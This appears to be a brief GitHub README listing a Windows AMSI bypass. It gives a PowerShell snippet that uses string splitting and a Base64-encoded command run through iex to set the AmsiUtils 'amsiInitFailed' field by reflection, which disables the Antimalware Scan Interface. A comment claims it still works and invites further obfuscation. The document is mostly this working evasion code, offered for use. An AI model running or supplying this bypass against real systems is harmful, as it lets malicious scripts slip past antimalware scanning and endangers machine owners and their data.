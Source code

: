 # AmsiBypass
List of Windows AMSI bypasses that have not been patched.

# Works as of 8/19/2022 - any way to break up the original command up will work since windows sucks
```
$data = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static');
$array = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("JGRhdGEuU2V0VmFsdWUoJG51bGwsJHRydWUp")); iex $array
```
